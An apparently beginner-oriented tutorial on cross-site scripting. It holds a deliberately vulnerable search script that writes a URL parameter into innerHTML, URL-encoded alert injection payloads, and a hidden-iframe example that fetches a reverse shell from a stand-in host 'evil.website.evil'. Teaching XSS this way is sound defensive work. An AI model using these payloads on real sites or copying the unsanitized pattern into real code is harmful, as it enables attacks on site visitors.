




# Cross Site Scripting (XSS)

##Video


## The Problem
Let's think for a moment: what are websites really made out of?

A website cannot be understood and displayed by a computer unless it is written in a very specific manner. You are probably familiar with **Hypertext Markup Language (HTML)** if you've spent some time on the internet. This is the classic markup language meant to make plain text files into things that can be displayed by a web server. **HTML** is responsible for most (but not all) web based things that you've ever seen in a web browser!

When you want to see memes of cats doing funny things on the internet, HTML is the language that translates a static page of text into images, headings, buttons, links, and more! 

And most of the time, this is totally fine. You, the **client**, browse to the IP address of the web server. The web server sees a visitor and says "I must render the text documents in my main directory so our visitor can see our website!" And the server takes the HTML file and makes it into something that looks good in a web browser. Science, baby!

## The Exploit
Most problems in cyber security can be boiled down to the fact that computers, for better or worse, do exactly what you tell them to do.

If the internet was just a bunch of pictures of static cat memes, I think we'd all be better off and nothing bad would ever happen. The problem here is that people love to make websites... well... **useful**. So maybe instead of cat memes, your company website has a form that take user input and produce some kind of output based on the user input.

Remember, **computers do exactly what you tell them to do**. So what if, instead of just filling out the form like a law-abiding citizen, you decide to put some HTML (or Javascript, or other type of website language) in the form instead?

Ladies and gentlemen, you have Cross Site Scripting: an exploit of **client-side HTML rendering**. The HTML code that you enter into the form is rendered by the website **as if it were part of the website in the first place**.

If a website accepts input from clients and  **does not validate and sanitize its input**, it may be vulnerable to Cross Site Scripting. Speaking simply, the website must be coded to accept input and **treat it as plain text, not HTML** to avoid this problem.

### Example

Consider the following block of HTML code:
````html
...
<body>
<p> This is my website </p>


...
````
When this site renders in the browser, what happens? The site looks like this:



If you put a reference to an image that does not exist right into the web page, a broken image icon will show up in its place. This is expected behavior.

What about this code block? Similar, but notice a small difference:
````html
...
<body>
<p> This is my website </p>

 >
...
````
Now, when the website is rendered, the additional `onerror` tag tells the website to trigger an alert box if there is some error on the page. And indeed, there is an error: the page is trying to load an image that does not exist!

When the page renders, it looks like this:



This time, we get an error message alert. So far so good, right? We, as the page author, are just using the common HTML tags to add different things to the website.

Well, what happens when you allow the user to provide input in the form of a...well, form?

Consider this  HTML snippet of a form:
````html
...
 <form action="" method="GET">
    <input type="text" name="q">
    <input type="submit" value="Search">
</form>
...
````
````javascript
document.addEventListener('DOMContentLoaded', function() {
    var q = getQueryParameter('q');
    if (q) {
        search(q, function(error, results) {
        showQueryAndResults(q, results);
    });
  }
}
...

function showQueryAndResults(q, results) {
    var resultsEl = document.querySelector('#results');
    var html = '';
    html += '<p>Your search query:</p>';
    html += '<pre>' + q + '</pre>';
    html += '<ul>';
    for (var index = 0; index < results.length; index++) {
        html += '<li>' + results[index] + '</li>';
    }
    html += '</ul>';
    resultsEl.innerHTML = html;
  }
...
````
Notice the addition of the `<input type="text" name="q">` tag. What exactly is this doing?

Well, per the form's tag parameters, it will make a GET request (in this case, to nothing as it's just an example) and will add whatever is put in the search bar to the "q=" parameter. Since this is a <code>GET</code> request, this parameter is viewable in the URL of the page:



The Javascript function that handles this form listens for a value that is added to the "q=" parameter and adds this value straight into the HTML of the page itself. Yikes!

Remember the broken image tag from before? How about we insert it into the page as the user, **not as the author** via XSS?

Through the URL, by using the insecure GET parameter of "q=" on this page, we will inject a **URL encoded HTML tag** to include the same broken image tag as before, with that exact same error. And, if the syntax is correct, the user will be able to include HTML in the page as if they were the author.

We will take the same syntax from before and URL encode it with a tool like this one: https://www.urlencoder.org/

``

becomes

`%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert('hi!')%22%3E`

...and we will inject this into the "q=" parameter in the website's URL:


Then, we hit enter!



The URL will automatically render the URL encoded characters when the form is submitted. What we're left with is an HTML tag that is dynamically added to the page by way of an evil user's actions.

## The Types
There are three types of XSS:
- Reflected XSS: XSS that returns user input 
- Stored XSS: Think of this as XSS that is added to the actual code on the server. This means that anyone who visits a particular page with this kind of XSS will be exploited by it, and it will remain on the server until someone does something about it. Scary stuff.
- DOM Based XSS


## The Damage
XSS is not just a matter of popping up an alert on a website. An attacker can do serious damage if a webpage is vulnerable to XSS.

Consider the following example of a particularly nasty Stored XSS payload:

`<iframe SRC="http://evil.website.evil/reverseShell.exe" height = "0" width = "0"></iframe>`

Here, the `iframe` HTML tag is used to make an embedded inline frame. This frame ends up looking like a tiny little square on the page when it is rendered in the browser. And as soon as a client visits a page that has been infected with an embedded iframe, their browser will try to access and browse to the iframe's source which, in this example, is `evil.website.evil/reverseShell.exe`. So everyone who visits the page while this XSS payload exists will download and launch a reverse shell program.